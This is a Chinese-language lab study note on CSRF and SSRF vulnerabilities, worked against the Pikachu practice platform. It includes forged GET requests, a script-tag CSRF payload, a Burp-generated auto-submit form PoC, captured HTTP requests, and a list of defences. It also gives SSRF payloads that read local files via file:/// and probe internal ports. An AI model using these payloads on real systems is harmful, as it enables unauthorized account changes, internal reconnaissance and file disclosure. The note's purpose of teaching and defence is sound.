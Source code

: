 <a name="vh8hz"></a>
## 一、CSRF漏洞
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628736689756-eec2955f-a3da-40a6-81f0-383c4e8d541f.png#clientId=uf3ea7103-69e4-4&from=paste&id=u8fbe8433&originHeight=661&originWidth=1117&originalType=binary&ratio=1&size=236817&status=done&style=none&taskId=udad21e37-1e98-48aa-8f1b-ebe9006f193)
```bash
#CSRF 漏洞解释，原理等
#CSRF 漏洞检测，案例，防御等

#防御方案
1、当用户发送重要的请求时需要输入原始密码
2、设置随机 Token
3、检验 referer 来源，请求时判断请求链接是否为当前管理员正在使用的页面（管理员在编辑文章，
黑客发来恶意的修改密码链接，因为修改密码页面管理员并没有在操作，所以攻击失败）
4、设置验证码
5、限制请求方式只能为 POST

```

<a name="jBjrI"></a>
### pikachu上csrf验证
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628741315246-f7602c18-bdb0-494c-beae-7eb3d1de47cc.png#clientId=uf3ea7103-69e4-4&from=paste&id=uf57b3ead&originHeight=520&originWidth=1387&originalType=binary&ratio=1&size=45925&status=done&style=none&taskId=u5873876c-4c06-4ac7-80af-ccbc5484ee1)<br />抓包<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628741370866-1f9de601-07d6-430a-a7a8-a9e93c13faef.png#clientId=uf3ea7103-69e4-4&from=paste&height=140&id=ub808b2f2&originHeight=280&originWidth=1645&originalType=binary&ratio=1&size=64898&status=done&style=none&taskId=ud6a658c1-c48c-4a9d-99b5-7d0ef0c2f36&width=822.5)<br />看到的是get提交的数据包`/vul/csrf/csrfget/csrf_get_edit.php?sex=gg&phonenum=1111&add=11111&email=111111&submit=submit`也就是说可以这样直接伪造提交的数据包从而就该服务器内容。

发送数据包`[http://10.1.1.7/vul/csrf/csrfget/csrf_get_edit.php?sex=22&phonenum=2222222&add=222222&email=22222222&submit=submit](http://10.1.1.7/vul/csrf/csrfget/csrf_get_edit.php?sex=22&phonenum=2222222&add=222222&email=22222222&submit=submit)`<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628741513995-22dac39a-76a3-444b-b676-f05ec1b67b45.png#clientId=uf3ea7103-69e4-4&from=paste&height=266&id=u9969af38&originHeight=532&originWidth=1611&originalType=binary&ratio=1&size=61113&status=done&style=none&taskId=u336e97f3-f85e-45d7-bb63-3385ec8b2d7&width=805.5)<br />伪造服务器点击`<script src="[http://10.1.1.7/vul/csrf/csrfget/csrf_get_edit.php?sex=33&phonenum=3333333&add=333333&email=33333333&submit=submit"></script>](http://10.1.1.7/vul/csrf/csrfget/csrf_get_edit.php?sex=33&phonenum=3333333&add=333333&email=33333333&submit=submit"></script>)`<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628741782391-302f59c5-e901-425f-95d3-08c99a850e13.png#clientId=uf3ea7103-69e4-4&from=paste&height=246&id=u62d2729a&originHeight=491&originWidth=1665&originalType=binary&ratio=1&size=66929&status=done&style=none&taskId=u10d7bf02-6796-4e11-96ca-3aa421626e9&width=832.5)
<a name="I8eiO"></a>
### burpsuit 生成Poc
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628765230429-dc1be236-1e6e-4656-ae14-bab3a762eeff.png#clientId=uf3ea7103-69e4-4&from=paste&height=270&id=u5be63585&originHeight=539&originWidth=1614&originalType=binary&ratio=1&size=71068&status=done&style=none&taskId=ub449f5eb-f5ce-406d-9c50-7eaf1e20085&width=807)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628765036191-3ff271a4-5922-4851-8b0f-74dc7c5841fc.png#clientId=uf3ea7103-69e4-4&from=paste&height=521&id=ubfd8add7&originHeight=1042&originWidth=1920&originalType=binary&ratio=1&size=236532&status=done&style=none&taskId=u3dfb3260-e576-439d-9e4a-1c45fc351b7&width=960)<br />复制poc代码修改表单中的内容。然后放在服务器当中访问如修改为以下代码
```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.1.1.7/vul/csrf/csrfget/csrf_get_edit.php">
      <input type="hidden" name="sex" value="@" />
      <input type="hidden" name="phonenum" value="@@@@1" />
      <input type="hidden" name="add" value="@@@@@@1" />
      <input type="hidden" name="email" value="@@@@@1" />
      <input type="hidden" name="submit" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628765360652-07756e53-bb0c-4011-852a-3b384bd2e310.png#clientId=uf3ea7103-69e4-4&from=paste&id=u9e87faae&originHeight=227&originWidth=1184&originalType=binary&ratio=1&size=18312&status=done&style=none&taskId=uf92e2449-c4f2-4597-a491-ce15d11bb4a)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628765405223-48ae322b-5cf4-41b9-9d66-2089476b8629.png#clientId=uf3ea7103-69e4-4&from=paste&height=227&id=u2714bf19&originHeight=454&originWidth=1669&originalType=binary&ratio=1&size=64082&status=done&style=none&taskId=u64a708a0-044d-4030-b985-1bcf96c1f9d&width=834.5)
<a name="XeGjS"></a>
### csrf防护
```bash
1、当用户发送重要的请求时需要输入原始密码
2、设置随机 Token
3、检验 referer 来源，请求时判断请求链接是否为当前管理员正在使用的页面（管理员在编辑文章，
黑客发来恶意的修改密码链接，因为修改密码页面管理员并没有在操作，所以攻击失败）
4、设置验证码
5、限制请求方式只能为 POST
```
**token防护**
```bash
GET /vul/csrf/csrftoken/token_get_edit.php?sex=gg&phonenum=1111&add=11111&email=11111&token=45096611500a646562638549385&submit=submit HTTP/1.1
Host: 10.1.1.7
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.1.1.7/vul/csrf/csrftoken/token_get_edit.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=p9f3jfbnbc7cucobc9djsukon3
Connection: close
```
从上面可以看到的是token随机字符串用来验证数据包的唯一性，由于数据包的唯一性也就导致csrf漏洞几乎不能被利用

**referer**
```bash
GET /vul/csrf/csrfget/csrf_get_edit.php?sex=%40&phonenum=%40%40%40%401&add=%40%40%40%40%40%401&email=%40%40%40%40%401&submit=submit HTTP/1.1
Host: 10.1.1.7
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.1.1.6/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=p9f3jfbnbc7cucobc9djsukon3
Connection: close



GET /vul/csrf/csrftoken/token_get_edit.php?sex=gg&phonenum=18428312222&add=1111111111111&email=857920461%40qq.com&token=15916611501d79dd97514223645&submit=submit HTTP/1.1
Host: 10.1.1.7
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.1.1.7/vul/csrf/csrftoken/token_get_edit.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=p9f3jfbnbc7cucobc9djsukon3
Connection: close


```
可以看到的是上面两个数据包referer来源是不一样的也就是说可以通过这样的方式来防止csrf漏洞，但是这种方式是不安全的因为可以通过抓包的方式修改referer值。

<a name="gp6PT"></a>
## 二、SSRF
原理：[https://www.cnblogs.com/happystudyhuan/p/11802961.html](https://www.cnblogs.com/happystudyhuan/p/11802961.html)
```bash
SSRF漏洞介绍：

　　SSRF漏洞（服务器端请求伪造）：是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）。

 

SSRF漏洞原理：

　　SSRF形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。利用的是服务端的请求伪造。SSRF是利用存在缺陷的web应用作为代理攻击远程和本地的服务器。

 

SSRF漏洞利用手段：

　　1.可以对外网、内网、本地进行端口扫描，某些情况下端口的Banner会回显出来（比如3306的）；

　　2.攻击运行在内网或本地的有漏洞程序（比如溢出）；

　　3.可以对内网Web应用进行指纹识别，原理是通过请求默认的文件得到特定的指纹；

　　4.攻击内网或外网有漏洞的Web应用；

　　5.使用file：///协议读取本地文件(或其他协议）

　　http://www.xingkonglangzi.com/ssrf.php?url=192.168.1.10:3306

　　http://www.xingkonglangzi.com/ssrf.php?url=file:///c:/windows/win.ini

 

SSRF漏洞出现点：

　　1.分享：通过URL地址分享网页内容　　　　　　　　　　　　　　　　　　　　　　　　　　

　　2.转码服务（通过URL地址把原地址的网页内容调优，使其适合手机屏幕的浏览）

　　3.在线翻译

　　4.图片加载与下载：通过URL地址加载或下载图片

　　5.图片、文章收藏功能

　　6.未公开的api实现及调用URL的功能

　　7.从URL关键字中寻找
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628767052886-f2e8f0f0-6a76-49bb-ace4-e52e38d1d560.png#clientId=uf3ea7103-69e4-4&from=paste&id=u2ecb107e&originHeight=353&originWidth=638&originalType=binary&ratio=1&size=51864&status=done&style=none&taskId=u917dd012-4e71-410d-aa3c-3d7ca58fcbf)<br />![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628818773345-5dee00af-4c10-4952-a572-61b413c1b5ac.png#clientId=uf3ea7103-69e4-4&from=paste&id=ua00d33d0&originHeight=557&originWidth=884&originalType=url&ratio=1&status=done&style=none&taskId=uef8e0f6e-ef1e-4871-afe2-307d404f7e4)
<a name="PuqKD"></a>
### pikachu ssrf漏洞验证
第一步正常打开ssrf页面<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628820298645-ecd51cdd-d5ba-48aa-9ede-6183655507cf.png#clientId=uf3ea7103-69e4-4&from=paste&height=279&id=u9e94e9ad&originHeight=557&originWidth=1917&originalType=binary&ratio=1&size=102467&status=done&style=none&taskId=u4141b524-540c-4550-b925-bc77dcffc1e&width=958.5)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628820406085-a69d2c74-1069-443b-8f03-c2d4a1b04500.png#clientId=uf3ea7103-69e4-4&from=paste&height=122&id=uf42a0b97&originHeight=244&originWidth=1920&originalType=binary&ratio=1&size=44484&status=done&style=none&taskId=u49b27a01-0f3a-4aa4-a388-4c0afddfddb&width=960)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628820616537-f1f9b911-9221-4789-8d25-3cce2f0d1322.png#clientId=uf3ea7103-69e4-4&from=paste&height=240&id=u1adddc27&originHeight=480&originWidth=1695&originalType=binary&ratio=1&size=59802&status=done&style=none&taskId=u76b20158-5e01-4e69-a356-e29f987ec0b&width=847.5)<br />可以看到的是链接已经发生了变化`[http://10.1.1.7/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1/vul/ssrf/ssrf_info/info1.php](http://10.1.1.7/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1/vul/ssrf/ssrf_info/info1.php)`

第二步：我们可以把 url 中的内容改成内网的其他服务器上地址和端口，探测内网的其他信息，比如端口开放情况，下面这个例子就探测出[10.1.1.7](http://10.1.1.7/)这台机器开放了3306端口<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628820856823-d1c6cfd7-d0f8-47f0-b38a-6326b5373d82.png#clientId=uf3ea7103-69e4-4&from=paste&height=169&id=u2c395e3c&originHeight=337&originWidth=1755&originalType=binary&ratio=1&size=54554&status=done&style=none&taskId=u2e6f8667-9a49-4191-a0d4-a995b604c5b&width=877.5)

 
<a name="Hu21m"></a>
### SSRF（file_get_content）
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628820988544-3c91f897-be74-4d44-bfd7-4c99a21ebe34.png#clientId=uf3ea7103-69e4-4&from=paste&id=u657f3f67&originHeight=566&originWidth=1360&originalType=binary&ratio=1&size=63834&status=done&style=none&taskId=u8252bdd4-36c8-434e-a969-b5d879d3191)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628821152164-acaf8fdc-a45c-4808-9bb8-3a489d7848df.png#clientId=uf3ea7103-69e4-4&from=paste&height=442&id=u897ad63f&originHeight=883&originWidth=1614&originalType=binary&ratio=1&size=191767&status=done&style=none&taskId=u4a6fc6b1-c82b-4d95-ba68-0d0b7101e4e&width=807)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628821222577-60cf57c3-4678-434d-8cf3-15b50a14266f.png#clientId=uf3ea7103-69e4-4&from=paste&height=190&id=u7f6afc33&originHeight=380&originWidth=1920&originalType=binary&ratio=1&size=118846&status=done&style=none&taskId=uee95162c-ef55-489b-b5fc-00c3948a552&width=960)
